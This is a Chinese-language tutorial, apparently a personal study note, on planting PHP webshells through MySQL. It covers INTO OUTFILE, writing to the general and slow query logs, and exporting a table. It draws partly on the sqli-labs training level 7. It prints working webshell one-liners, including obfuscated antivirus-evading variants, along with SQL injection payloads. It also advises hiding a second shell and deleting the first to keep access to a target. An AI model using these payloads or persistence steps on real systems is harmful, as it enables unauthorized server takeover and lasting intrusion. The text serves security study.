 ## mysql如何向日志文件写webshell进行利用



> **Webshell** 是一种恶意代码，通常以脚本文件的形式存在，可以在受攻击的 Web 服务器上执行命令、操纵文件系统、窃取敏感信息等。攻击者可以通过各种方式将 Webshell 注入到目标服务器上，以获取非法访问权限。



MySQL 的日志文件是用于记录数据库服务器活动和事件的重要组成部分，这些日志文件对于故障排除、性能优化和安全审计非常有用。默认情况下，MySQL 的日志文件通常位于服务器的特定目录中。。在默认情况下，MySQL 会生成以下几种类型的日志文件：

1. 查询日志（Query Log）：记录所有发往 MySQL 服务器的查询语句。可以通过配置 MySQL 的选项来启用或禁用查询日志。攻击者可能会尝试通过注入恶意查询语句来在日志中插入 Webshell。
2. 错误日志（Error Log）：记录 MySQL 服务器遇到的错误和异常情况。错误日志对于故障排除和安全审计非常有用。攻击者可能会尝试通过利用服务器错误来触发异常行为，并在错误日志中留下 Webshell。
3. 慢查询日志（Slow Query Log）：记录执行时间超过预定义阈值的查询语句。慢查询日志用于性能优化和查询分析。攻击者可能会尝试通过构造复杂的查询语句来使其被记录在慢查询日志中，并在其中插入 Webshell。







### 使用outfile方法：

```
select '<?php @eval($_POST[1]);?>' into outfile 'D:/shell.php'
```

**成功向mysql写入webshell条件（至少）**

1. 数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问） 
2. 知道网站目录的绝对路径； 
3. PHP的GPC参数为off状态； 
4. MySQL中的secure_file_priv参数不能为NULL状态。



**secure_file_priv**

secure-file-priv是一个系统变量，对于文件读/写功能进行限制。

secure_file_priv是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权限。如下关于secure_file_priv的配置介绍

1. secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出，意味着通过outfile方法写入WebShell是无法成功的，但是通过导出日志的方法是可以的。
2. 当secure_file_priv的值为/tmp/（具体文件路径） ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
3. 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

注：5.5.53本身及之后的版本默认值为NULL，之前的版本无内容。

三种方法查看当前secure-file-priv的值：

select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like “secure_file_priv”;
修改：

通过修改my.ini文件，添加：secure-file-priv=
启动项添加参数：mysqld.exe --secure-file-priv=



Outfile方法其实是Mysql提供的一个用来写入文件的函数，当我们可以控制写入的文件内容以及文件的保存路径时，我们就可以达到传入WebShell的目的。当我们可以使用union查询时，我们构造一个如下语句，就可以达到效果：

```
Union select “这里是WebShell” into outfile “Web目录”；
```

当我们无法使用union时，还有一些其他方法也可以实现（利用分隔符写入）：

```
?id=1 INTO OUTFILE '物理路径' lines terminatedby （这里是WebShell）#
?id=1 INTO OUTFILE '物理路径' fields terminatedby （这里是WebShell）# 
?id=1 INTO OUTFILE'物理路径'columns terminatedby （这里是WebShell）# 
?id=1 INTO OUTFILE '物理路径' lines startingby （这里是WebShell）#
```







### 先看看sqli-labs第七关的笔记，也就是使用outfile方法：

```
?id=1'))UNION SELECT 1,2,3 into outfile "D:\\uuu.txt"--+
```

刚开始这儿一直不行，硬盘上出现不了uuu.txt，原因是自己的mysql设置问题。

在MySQL中，outfile可以用来输出一个文件。但是想要执行这样的操作，就必须要开启文件写入的权限。

我们可以执行：`show variables like '%secure%';`来查看：发现`secure_file_priv`的 value 值是 NULL，那么这代表此时文件写入的权限是关闭的，那我们需要写入输出文件的保存路径来开启它。

首先，我们来到MySQL的根目录下，会看到一个my.ini的文件。

打开my.ini文件，添加`secure_file_priv`以及他所对应的参数：（我写的是`secure_file_priv='D://'`）

```
在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv=
```

注意：*路径的斜杠需要采用//需要多加一个斜杠来转义字符，其次，因为C盘的权限问题，请不要把路径写到C盘上。*【开始我没有注意这一点导致sql语句一直报错，很头疼】

之后我们重启 MySQL服务：

最后重复刚才的 sql 语句`show variables like '%secure%';` 来查看是否修改成功：发现已经出现路径了。

那这个时候，我们就可以执行`outfile`来输出文件到 D盘的任意位置了。

```
my.ini文件是MySQL数据库服务器和客户端程序的配置文件，它可以用于设置MySQL的基本运行参数、安全性、缓存、日志记录等方面的参数。
```

> 在sql漏洞中可以使用file系列函数
>
> load_file()  ：读取指定文件
> into outfile ：将查询的数据写入文件中
> into dumpfile：将查询的数据写入文件中(只能写入一行数据)
>
> ```
> secure_file_prive=null //限制mysqld 不允许导入导出
> secure_file_priv=/path/  //限制mysqld的导入导出只能发生在默认的/path/目录下
> secure_file_priv=’’  //不对mysqld 的导入 导出做限制
> ```
>
> outfile函数可以导出多行，而dumpfile只能导出一行数据
> outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

这时候我们可以通过``

```
联合：
?id=-1')) union select version(),database(),user() into outfile "D:\\uuu.txt" --+

非联合：
?id=1')) into outfile "D:\\uuu.txt" fields terminated by '' --+
```

来使得所需信息输出到 uuu.txt

**注意：储存的文件路径uuu.txt也要本身没有这个文件才可以。**

**注意：闭合条件是'))，不然也不行**







### 基于log日志写入法(全局日志)

所以`mysql`在 my.ini 中设置了导出文件的路径，无法再使用`select …… into outfile`来写入一句话

此时在 mysql 文件夹下的 my.ini 中可以设置到处路径，但是在拿 shell 时，不可能去修改配置文件。

但是可以通过修改 mysql 的 log 文件来获取 webshell

1. 我们首先进入SQL环境，执行以下SQL语句：

```sql
show variables like "%general%";
```

2. 如果 `general_log`是OFF，则需要执行`set GLOBAL general_log='ON';`（开启日志功能）

3. 接下来设置日志存储路径`SET GLOBAL general_log_file='C:/phpStudy/www/xxx.php'`

4. 最后执行sql语句,写入日志文件`select "<?php system($_GET[a]);?>"`

```
免杀shell,eval方式
mysql> select "<?php $sl = create_function('', @$_REQUEST['klion']);$sl();?>";

别人的免杀shell,assert&base64encode方式    
mysql> SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['klion']));?>";     
```

5. 处理后事：

   干完活儿以后务必记得把配置恢复原状（不然,目标站如果访问量比较大,日志文件可能会瞬间暴增连shell时会巨卡），拿到shell记得马上再传一个shell（[放的隐蔽点），然后再通过新的shell把最开始这个shell删掉，谨慎一点，起码不会让你的shell掉的那么快。

   `set global general_log = off;`







### 基于log日志写入法(慢查询日志)

1. 查看慢查询日志开启情况`show variables like '%slow_query_log%';`
2. 开启慢查询日志`set global slow_query_log=1;`
3. 修改日志文件存储的绝对路径`set global slow_query_log_file='D:/shell.php';`
4. 向日志文件中写入shell`select '<?php @eval($_POST[1]);?>' or sleep(11);`







### 将shell写入表中+outfile

**利用条件：**

1. root权限

2. 网站的绝对路径且具有写入权限

执行如下语句写入shell：

1. 将shell插入一个表中`insert into sxss(comment) values ('<?php @eval($_POST[1]);?>');`

2. 查询该数据表，将结果导出文件`select comment from sxss into outfile 'D:/shell.php';`







###  CVE-2018-19968文件包含

**受影响的phpMyAdmin版本：4.8.0 ~ 4.8.3**

